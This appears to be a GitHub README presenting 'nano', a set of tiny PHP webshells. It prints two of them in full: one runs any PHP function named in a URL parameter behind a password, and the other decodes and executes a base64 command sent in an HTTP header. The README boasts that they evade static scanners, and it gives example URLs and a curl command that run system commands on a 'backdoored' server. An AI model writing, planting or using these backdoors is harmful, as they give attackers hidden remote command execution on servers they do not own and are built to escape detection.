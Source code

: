 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

### Nano
```php
<?=$_GET[p]==_&&$_GET[f]($GET_[c]);
```
#### Features
- 35 bytes in size
- Can't be detected by static code scanners
- Supports authentication

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Ninja
```php
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~ls` and then base64 encode it i.e. `c3lzdGVtfmxz`\
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtfmxz`\
Now open your terminal and type the following command\
`curl -H 'x: xc3lzdGVtfmxz' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/s0md3v/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
The nano project is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
